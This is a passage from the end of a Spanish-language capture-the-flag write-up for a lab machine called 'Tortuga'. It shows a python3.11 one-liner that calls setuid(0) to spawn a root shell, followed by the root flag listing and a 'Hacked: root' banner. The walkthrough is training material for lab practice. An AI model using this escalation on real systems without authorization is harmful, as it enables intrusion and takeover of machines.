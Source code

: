 Ahora solo nos queda ganar acceso como root
```bash
# Comando para escalar al usuario: ( root )
capitan@TheHackersLabs-Tortuga:~$ /usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
---
## Evidencia de Compromiso
Flag de **root**
```bash
-r--------  1 root root   33 sep  5 11:55 root.txt
```

```bash
# Captura de pantalla o output final
root@TheHackersLabs-Tortuga:~# echo -e "\n[+] Hacked: $(whoami)\n"

[+] Hacked: root
```